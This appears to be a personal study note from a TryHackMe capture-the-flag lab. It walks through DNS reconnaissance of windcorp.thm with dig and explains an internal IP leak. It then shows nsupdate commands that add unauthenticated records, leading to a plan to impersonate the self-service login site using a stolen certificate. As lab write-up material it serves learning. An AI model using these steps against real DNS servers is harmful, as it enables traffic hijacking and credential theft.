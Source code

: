 This is part of a lesson about **insecure dynamic DNS updates** (where anyone can modify DNS records if security is misconfigured).

You can try with:
- Zone transfers (`dig AXFR windcorp.thm @fire.windcorp.thm`)
- Dynamic DNS updates (`nsupdate`)

---
## Zone transfers

The popup login page is on: **selfservice.windcorp.thm**.

#Attacking_machine 
```
dig selfservice.windcorp.thm @<MACHINE IP>
```

![[DNS exploitation-20250905111019689.webp]]

### Key Sections

#### ✅ HEADER

`status: NOERROR`

- Means the query succeeded, the server had a valid answer.

---

#### ✅ QUESTION

`;selfservice.windcorp.thm. IN A`

- You asked for an **A record** (IP address) of `selfservice.windcorp.thm`.

---
#### ✅ ANSWER

`selfservice.windcorp.thm. 3600  IN  CNAME   fire.windcorp.thm. fire.windcorp.thm.        3600  IN  A       10.10.183.255 fire.windcorp.thm.        3600  IN  A       192.168.112.1`

- `selfservice.windcorp.thm` is a **CNAME (alias)** → it points to `fire.windcorp.thm`.

- `fire.windcorp.thm` has **two A records**:
    - `10.10.183.255` (likely the external TryHackMe target machine)
    - `192.168.112.1` (an **internal/private IP** on the corporate LAN)


So, when you resolve `selfservice.windcorp.thm`, it’s basically an alias for `fire.windcorp.thm`, which can resolve to either external or internal IPs.

---

#### ✅ What this means

- You’ve discovered that **selfservice.windcorp.thm** is not its own server — it’s an alias for **fire.windcorp.thm**.
    
- The DNS server is **leaking an internal IP (192.168.112.1), which is sensitive info.
    
    - This is a common misconfiguration in real environments: exposing internal addressing via DNS.
        
- The **external service** you can reach is at **10.10.183.255** (your attack target in THM).
    

---

⚡️ In a real pentest, this would tell you:

1. Try accessing `http://selfservice.windcorp.thm` → it resolves to the target IP.
    
2. The internal IP (`192.168.112.1`) might be useful later for **pivoting** or **VPN access**.
    
3. If you can query DNS further, you may find **other subdomains** that also leak internal infrastructure.

---


## Dynamic DNS updates 

`nsupdate` is a command-line tool (part of the `dnsutils` package in Kali) that lets you send **DNS update requests** to a nameserver.

This is exactly what your earlier TXT flag hinted at:

> “Allowing nonsecure dynamic updates is a significant security vulnerability because updates can be accepted from untrusted sources”

That means the target DNS server (`fire.windcorp.thm / <MACHINE IP>`) might let you add or change DNS records without authentication.

#Attacking_machine 

1. First, confirm the DNS server is alive:
```
dig windcorp.thm @<MACHINE IP>
```

![[DNS exploitation-20250905114949374.webp]]

The answer section confirms it's alive.

2. Query for subdomain (`selfservice.windcorp.thm`):
```
dig selfservice.windcorp.thm @10.10.183.255
```

3. Attempt dynamic update with `nsupdate`:
```
nsupdate
> server 10.10.183.255 
> zone windcorp.thm 
> update add test.windcorp.thm 600 A 10.9.0.123 
> send
```

4. Verify:
```
dig test.windcorp.thm @10.10.183.255
```

![[DNS exploitation-20250905120034193.webp]]

If it resolves to your IP, the server accepts **unauthenticated dynamic updates** (a critical vuln).

 5. (Optional) Add a TXT record

	Sometimes CTFs hide flags in DNS TXT updates. You can test like this:
	
```
> update add hacked.windcorp.thm 600 TXT "Owned by Kali"
> send
```


Verify:
```
dig -t TXT hacked.windcorp.thm @10.10.183.255
```

![[DNS exploitation-20250905120651351.webp]]

So we can add records.

> [!Important] 
>This only works if the DNS server allows “nonsecure dynamic updates.” In real life, this is a **severe misconfiguration**

## Summing up what you know

- There is a authenticated site https://selfservice.windcorp.thm .
- We have the certificate and private key, so we could impersonate that server .
- We can alter DNS records, so impersonating.

## Diagram

            +------------------------+
            | windcorp.thm (domain) |
            +------------------------+
                      |
                      | NS
                      v
           +-----------------------+
           | fire.windcorp.thm     |
           | (Authoritative NS)    |
           | A: 10.10.183.255      |
           | A: 192.168.112.1      |
           +-----------------------+
             |            |
   CNAME      |            | Dynamic Update?
             v            v
+-------------------+  +--------------------+
| selfservice       |  | test / hacked /    |
| .windcorp.thm     |  | other subdomains   |
| CNAME -> fire...  |  +--------------------+
+-------------------+

Other hosts (potential):
- dev.windcorp.thm -> 192.168.112.x
- mail.windcorp.thm -> 10.10.183.255
- …etc
